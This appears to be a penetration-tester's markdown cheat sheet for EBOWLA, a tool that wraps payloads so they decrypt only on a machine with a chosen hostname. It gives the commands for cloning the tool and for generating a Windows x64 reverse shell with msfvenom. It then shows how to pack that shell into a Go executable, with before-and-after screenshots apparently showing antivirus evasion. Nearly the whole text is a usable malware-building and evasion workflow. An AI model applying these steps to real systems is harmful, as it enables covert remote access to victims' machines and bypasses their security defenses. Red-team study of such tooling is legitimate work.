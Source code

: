 # EBOWLA
## framework for building environmental keyed payloads

### Get EBOWLA

```git clone https://github.com/Genetic-Malware/Ebowla```

```cd Ebowla```

### edit generic.config:

change:

output_type = GO

payload_type = EXE

Set at least one environment variable (computername = hostname),
the name has to be exact, as Ebowla won't decrypt otherwise.

### make payload

Make, as an example, a reverse shell payload with metersploit: 

```msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT= -f exe -a x64 -o shell.exe```

### build executable with Ebowla

```python2 ebowla.py shell.exe genetic.config```

![](https://raw.githubusercontent.com/ohoph/cheatsheats/master/ebowla/images/2019-12-13_09-42.png?token=ANDZTD52FKYQIOMKV3RBKUC56NLDI)

```./build_x64_go.sh output/<outputfilefromfirststeps> <finalfilename>```

![](https://raw.githubusercontent.com/ohoph/cheatsheats/master/ebowla/images/2019-12-13_09-47.png?token=ANDZTDZ4WQD7BAUW45VQUWK56NLHO)

The finished, packed executable can be found in the **output** folder.

### Results!

### without Ebowla

![](https://raw.githubusercontent.com/ohoph/cheatsheats/master/ebowla/images/2019-12-13_09-50.png?token=ANDZTD3RLAGGH5XC3FN3A2S56NLMI)

### same executable with the use of Ebowla

![](https://raw.githubusercontent.com/ohoph/cheatsheats/master/ebowla/images/2019-12-13_09-52.png?token=ANDZTD3BMQF7CAHDMEHEVZC56NLMQ)
